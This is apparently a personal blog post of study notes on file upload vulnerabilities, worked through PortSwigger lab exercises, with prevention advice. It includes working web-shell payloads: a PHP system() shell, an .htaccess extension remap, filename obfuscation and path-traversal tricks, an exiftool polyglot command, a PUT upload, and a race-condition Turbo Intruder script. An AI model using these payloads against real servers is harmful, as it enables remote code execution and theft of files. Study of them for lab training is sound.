






+++
title = 'File Upload Vulnerabilities'
date = '2026-08-22T07:43:32+05:45'
draft = false
tags = []
featureimage = 'file.png'
+++


It is when a web server allows users to upload files to its file system without sufficient validating things like their name, type, contents or size.

## Impact

→ If filename isn’t validated properly, this could allow an attacker to overwrite critical files simply by uploading a file with the same name.

→ If the server is also vulnerable to directory transversal, this could mean attacker are even able to upload files to unanticipated locations.

→ Failing to make sure that the size of the file falls within expected threshold could also enable a form of denial-of-service (DOS) attack, whereby the attacker fills the available disk space.

## Preventing file execution in user-accessible directories:

### Precaution:

A server executes only whose MIME types they have been configured.

---

### Multi-Purpose Internet Mail Extensions (MIME):

Introduced in 1991. It allows us to send, receive and view email messages that supports audio, images, video, application and texts written in character sets other than ASCII.

---

<aside>
💡

Tips: Web server often use the filename field in `multipart/form-data` requests to determine the name and location where the files should be saved.

</aside>

---

Even though you may send all of your request to the same domain name, this often points to a reverse proxy server of some kind, such as load balancer.

---

### LAB: WEB SHELL UPLOAD VIA PATH TRAVERSAL

[Login](https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/preventing-file-execution-in-user-accessible-directories/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

Login and go to accounts and check the request for  `/files/avatars/<your-image>`  
Send this request to the repeater. Create a php payload `<?php system(_$REQUEST[’cmd’]); ?>` upload this payload and send the get request to the files. In avatars directory file doesn’t run. So, upload the file to files by using `filename=”..%2exploit.php”` [Note: %2 = / (URL ENCODED)]. Now observer file is uploaded to files now perform a get request with following queries `/files/exploit.php?cmd=cat%20%2Fhome%2Fcarlos%2Fsecrets` [This is URL encoding].

---

## Insufficient Blacklisting of dangerous file types:

The practice of blacklisting is inherently flawed as it’s difficult to explicitly block every possible file extension that could be used to execute code such as php5, shtml, etc.

---

## Overriding the server configuration:

Developers can make directory specific configuration an IIS servers using a web .config file.

---

### LAB: WEB SHELL UPLOAD VIA EXTENSION BLACKLIST BYPASS

[Login](https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/insufficient-blacklisting-of-dangerous-file-types/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

Login and upload a PHP payload to get the contents of secret `<?php echo file_get_contents('/home/carlos/secret'); ?>` . Attempt to upload this payload, the browser will return that the PHP file cannot be uploaded. So to bypass that we need to add `.htaccess` file in that we need setup a Apache directive i.e `AddType application/x-httpd-php .l33t` . But there are steps to it: 

<aside>
💡

In Burp's proxy history, find the `POST /my-account/avatar` request that was used to submit the file upload. In the response, notice that the headers reveal that you're talking to an Apache server. Send this request to Burp Repeater.

</aside>

1. Change the value of the `filename` parameter to `.htaccess` 
2. Change the value of the `Content-Type` header to `text/plain` 
3. Replace the contents of the php file change with the following Apache directive`AddType application/x-httpd-php .l33t` 

<aside>
💡

This maps an arbitrary extension (`.l33t`) to the executable MIME type `application/x-httpd-php`. As the server uses the `mod_php` module, it knows how to handle this already.

</aside>



Use back arrow in the burp repeater to go back to the original POST request and now change `filename` to `exploit.l33t` 



Switch to the other Repeater tab containing the `GET /files/avatars/<YOUR-IMAGE>` request. In the path, replace the name of your image file with `exploit.l33t` and send the request. Observe that Carlos's secret was returned in the response. Thanks to our malicious `.htaccess` file, the `.l33t` file was executed as if it were a `.php` file.



---

## Obfuscating file extensions

Exhaustive blacklists can potentially be bypassed using classic obfuscation techniques. 

- If the validation code is case sensitive and fails to recognize that `exploit.pHp` is in fact a `.php` file.
- Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as a JPG image or PHP file: `exploit.php.jpg`
- Add trailing characters. eg: `exploit.php.`
    - Windows often ignores trailing dots and spaces in filenames.
    - In older version of PHP (pre -5.3.4) and many C-based systems, a null byte tells the system “the string ends here.”
        - `exploit.php%00.jpg`
        - The application sees `.jpg` and allows it, but the filesystem stops at the null byte and saves it as `exploit.php` .
- Try using the URL encoding ( or double URL encoding) for dots, forward slashes, and backward slashes.If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
- Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- Unicode tricks can **hide dots during validation and reveal them later**, breaking file upload security: for example:
    - An attacker uploads a file named: `shell%C0%AEphp`
    - Your app checks it and **doesn’t see `.php`**, so it allows it
    - Later, during decoding/normalization, `%C0%AE` turns into `.` → filename becomes `shell.php`
- Stripping or replacing dangerous extensions to prevent the file from being executed. For example, consider what happens if you strip `.php` from the following filename: `exploit.p**.php**hp`

---

### Lab: Web shell upload via obfuscated file extension

[Login](https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/insufficient-blacklisting-of-dangerous-file-types/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)

`<?php echo file_get_contents('/home/carlos/secret'); ?>` 

This is the script used the lab has a classic file upload vulnerability which can by exploited by adding a URL encoded null byte. 

 `\0`  which In many low-level systems, a null byte is used to mark the end of a string.

So if the file was supplied as `file_upload_vuln_obfuscation.php%00.jpg` then it could easily be allowed by the filter because it recons it as jpg image but when executing this file server reads as a php file because `%00` is URL encoded version of a null byte `\0`



---

## **Flawed validation of the file's contents:**

Instead of trusting the `Content-Type` specified in a request, more secure server try to verify the contents of the file. For example for a image: A server might try to verify the dimensions of the image, if you try to upload a PHP script it will not have dimensions so the server can deduce that it can’t possibly be an image and reject the upload.

Many server try to validate the file by using their header. For example: 

- A **JPEG image** usually starts with: `FF D8 FF`
- A **PDF** starts with: `%PDF`
- A **PNG** starts with a specific byte sequence like: `89 50 4E 47`

Even this type of validation can be bypassed. If an attacker makes a image like a normal images but hides the malicious script inside certain part or segment of the image which is a called a `polyglot file`. 

A polyglot file is a file that is valid in more than one context or hides multiple types of content inside it.

---

### **Lab: Remote code execution via polyglot web shell upload**:

[Login](https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/flawed-validation-of-the-file-s-contents/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

This lab has a robust validation technique in which the server checks the metadata of the image uploaded. So to bypass this a polyglot file with the same metadata as a image file is created which has a comment embedded in it which includes the payload.

```jsx
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" picture.jpg -o polyglot.php
```

Then the polyglot file is uploaded and when the image is loaded in the browser it gives us the flag.


---

## Exploiting file upload race conditions:

Modern frameworks are more hardened in security. To prevent from file upload vulnerabilities they generally don’t upload files directly to their intended destination on the file system. Firstly the file is uploaded to the temporary sandboxed directory. Then the file name is randomized and then the validation of the file takes place. If only successfully validated then the file is migrated to intended destination.

When developers build file upload systems themselves instead of using a framework, it becomes easy to introduce serious security mistakes. These custom systems are complex, and if not designed carefully, attackers may exploit timing issues (race conditions) where a file is changed or swapped during validation. This can allow malicious files to bypass checks and get accepted as safe.

For example, some websites upload the file directly to the main file system and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it. These vulnerabilities are often extremely subtle, making them difficult to detect during blackbox testing unless you can find a way to leak the relevant source code.

### Race condition in URL-based file uploads:

Similar race conditions can occur in functions that allow you to upload a file by providing a URL. In this case, the server has to fetch the file over the internet and create a local copy before it can perform any validation. As the file is loaded using HTTP, developers are unable to use their framework's built-in mechanisms for securely validating files. Instead, they may manually create their own processes for temporarily storing and validating the file, which may not be quite as secure.

Even if uploaded files are stored in temporary directories with randomized names, attackers may still exploit weaknesses if the randomness is predictable (like using weak functions such as `uniqid()`). They can try to guess or brute-force the directory name. Attacks become easier if file processing takes longer, because this increases the time window for guessing. Uploading large files with malicious content at the beginning and extra padding can slow processing and give attackers more opportunity to exploit the system.

---

## **Exploiting file upload vulnerabilities without remote code execution:**

Although you might not be able to execute scripts on the server, you may still be able to upload scripts for client-side attacks. For example, if you can upload HTML files or SVG images, you can potentially use `<script>` tags to create stored XSS payloads.

If the uploaded file seems to be both stored and served securely, the last resort is to try exploiting vulnerabilities specific to the parsing or processing of different file formats. For example, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for XXE injection attacks.

---

## Uploading files using PUT:

Some server might be configured to support `PUT` requests, if appropriate defenses aren’t in place, this can provide an alternative means of uploading the malicious files, even when no upload function is available. 

```jsx
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

> You can try sending `OPTIONS` requests to different endpoints to test for any that advertise support for the `PUT` method.
> 

---

## **How to prevent file upload vulnerabilities:**

- Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload.
- Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).
- Rename uploaded files to avoid collisions that may cause existing files to be overwritten.
- Do not upload files to the server's permanent filesystem until they have been fully validated.
- As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms.

---
## Lab: Web Shell Upload Via Race Condition:

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition

This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

The application has the file upload vulnerability via race condition. First login with the provided credentials and then try to upload a basic php script to see the secret of carlos and send that post request to the turbo intruder which is an extension used to send multiple request concurrently.

The php script that i used was:

`<?php echo file_get_contents('/home/carlos/secret'); ?>`



This is the turbo intruder and in it we have our post request and now we need to write a script to send the concurrent request. First send POST request and while sending POST request also send the GET request. I used `claude` to generate this script:

```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=30,
engine=Engine.THREADED
)

# The GET request to the file we're trying to catch mid-upload
get_req = (
    'GET /files/avatars/basic_php_exploit_to_retreive_from_home_carlos_secrets.php HTTP/1.1\r\n'
    'Host: 0a6500f5043e855680e75dc100300093.web-security-academy.net\r\n'
    'Cookie: session=sQ5UBbZDnPGC1IxJPlCs09r1BTVS6aH0\r\n'
    'Connection: close\r\n'
    '\r\n'
)

# Queue several upload attempts (target.req = the POST request loaded in this tab)
for i in range(10):
    engine.queue(target.req, gate='race1')

# Queue several GET attempts to try to catch the file mid-race
for i in range(20):
    engine.queue(get_req, gate='race1')

# Release all of them together, in the same instant
engine.openGate('race1')

def handleResponse(req, interesting):
table.add(req)
```

